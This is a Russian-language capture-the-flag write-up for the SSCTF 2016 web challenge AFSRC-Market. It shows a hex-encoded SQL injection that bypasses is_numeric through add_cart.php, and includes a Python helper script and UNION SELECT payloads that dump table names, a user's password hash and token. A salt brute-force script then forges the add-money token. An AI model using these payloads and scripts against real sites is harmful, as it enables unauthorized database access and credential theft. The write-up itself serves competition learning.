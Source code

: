SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
---

![alt-text][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт и
происходит редирект на страницу входа.
При нажатии на сами товары просиходит переход по ссылке `https://security.alipay.com/`.

![alt-text][alert_msg]

![alt-text][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации.

![alt-text][register_page]

Попробуем зарегистрировать какого-либо пользователя.

![alt-text][reg_success]

![alt-text][try_login]

Видим сообщение об успешной регистрации и нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![alt-text][login_success]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска как и раньше не функционирует.
Заметим, что после авторизации в cookie была добавлена единственное значение PHPSESSID - идентификатор сессии в PHP.
Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` какой-нибудь номер.
После этого окрывается домашняя страница и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении,
при вводе символов, не являющихся цифрами, выдается сообщние об ошибке. Также допистим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id` скорее всего проверяетя с помощью PHP функции `is_numeric()` перед вставкой в запрос.

![alt-text][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третяя содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибе. Также внимание привлекает
строка `The Last cost: 0`, попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX` при указании верного числа в `id` значение принимает случайное ненулевое значение. Если `id=0x123456` или другой случайный hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то оразом зависит от параметра `id` при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex, попробует совершить простую "is_numeric bypass" sql-иньекцию через параметр `id`. Для генерации hex-значение воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![alt-text][try_simple_inj]

![alt-text][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследование напишем функцию на Python, которая будет
отправлять нужный запрос, и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы данных.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
> 1、Congratulations for you !You finished 80%,Come on continue!
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![alt-text][form_source]

Видим, что в форме есть скрытый параметр `salt`, осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся для пользователя.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и видем результат: `Salt = 8b76d`. Добавим её в форму пополнения счета.

![alt-text][flag_is]

Получаем флаг!

[main_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Главная страница"
[alert_msg]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Предупреждение"
[login_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница входа"
[register_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница регистрации"
[reg_success]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Успешная регистрация"
[try_login]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Попытка войти"
[login_success]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Вход прошел успешно"
[user_page]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Страница пользователя"
[try_simple_inj]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Результат sql-иъекции"
[form_source]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Исходный код формы пополнения счета"
[flag_is]: https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Флаг"
